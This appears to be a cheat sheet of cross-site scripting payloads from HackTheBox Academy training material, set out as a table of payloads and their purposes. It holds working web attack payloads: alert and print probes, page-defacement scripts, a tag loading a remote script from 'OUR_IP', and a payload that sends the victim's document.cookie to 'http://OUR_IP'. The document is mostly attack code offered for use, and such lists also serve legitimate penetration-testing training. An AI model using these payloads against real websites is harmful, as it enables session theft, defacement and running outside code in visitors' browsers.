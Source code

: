 # XSS



| `<script>alert(window.origin)</script>`                                                       | Basic XSS Payload             |
| --------------------------------------------------------------------------------------------- | ----------------------------- |
| `<plaintext>`                                                                                 | Basic XSS Payload             |
| `<script>print()</script>`                                                                    | Basic XSS Payload             |
| `<img src="" onerror=alert(window.origin)>`                                                   | HTML-based XSS Payload        |
| `<script>document.body.style.background = "#141d2b"</script>`                                 | Change Background Color       |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image       |
| `<script>document.title = 'HackTheBox Academy'</script>`                                      | Change Website Title          |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>`                               | Remove certain HTML element   |
| `<script src="http://OUR_IP/script.js"></script>`                                             | Load remote script            |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`               | Send Cookie details to us     |
